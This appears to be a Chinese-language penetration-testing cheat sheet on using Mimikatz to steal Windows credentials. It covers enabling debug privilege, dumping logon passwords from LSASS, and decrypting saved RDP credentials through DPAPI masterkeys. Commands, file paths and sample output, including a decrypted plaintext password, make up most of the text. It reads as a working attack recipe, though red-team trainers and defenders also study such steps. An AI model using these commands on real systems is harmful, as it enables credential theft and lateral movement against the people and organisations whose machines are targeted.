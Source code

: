 # Mimikatz
家喻户晓的工具Mimikatz可以dump凭据,也就是hash,可以在gentilwiki的github主页找到最新的编译好的利用文件。

Mimikatz的运行需要管理员权限，它可以从administrator权限提升到system权限。

```
mimikatz # privilege::debug

Privilege '20' OK
```

## Dumping creds from lsass

```
mimikatz # sekurlsa::logonpasswords
```

## DPAPI方法

有些用户在进行3389连接的时候，会选择把密码保存在本地的选项。
凭据通常存储在以下两个目录中的文件中：

```
dir /a C:\Users\username\AppData\Roaming\Microsoft\Credentials 
C:\Users\username\AppData\Local\Microsoft\Credentials
```
如果两个文件夹都是空的，那么凭证可能不会保存在凭证管理器中。这些文件通常存储为32个字符全部大写字母的数字字符串，类似于：`0DCF46D87F2DCE439DC47AA5F9267462`。

获得凭据文件的文件名和路径后，用mimikatz执行:


```
mimikatz dpapi::cred /in:C:\Users\username\AppData\Local\Microsoft\Credentials\0DCF46D87F2DCE439DC47AA5F9267462  //dump我们想要解密的凭据blob以及解密所需的masterkey的GUID。
```

SYSTEM可以dump所有的masterkeys：

```
!sekurlsa::dpapi
```
在上一步中，你应该获得了一个129字符的字符串，这是作为与找到的GUID相关联的masterkey。

```
GUID: {6515c6ef-60cd-4563-a3d5-3d70a6bc699}
masterkey: 76081ac6e809573b4dfa1a7a8eac3ae0106aa3f4d283fc3d6cf114a6285b582d4df53dc0e30b64c318e473bce49adabb73ad8cccd8bf4d7d10f44f4d4e48cf04
```
继续使用masterkey解密凭据。

```
 dpapi::cred /in:C:\Users\username\AppData\Local\Microsoft\Credentials\0DCF46D87F2DCE439DC47AA5F9267462/masterkey:76081ac6e809573b4dfa1a7a8eac3ae0106aa3f4d283fc3d6cf114a6285b582d4df53dc0e30b64c318e473bce49adabb73ad8cccd8bf4d7d10f44f4d4e48cf04
```

会回显出用户名和密码:

```
UserName       : LAN\username_adm
CredentialBlob : Sup3rAw3s0m3Passw0rd!
```


```
参考链接:https://github.com/gentilkiwi/mimikatz/wiki/module-~-dpapi https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/​
```





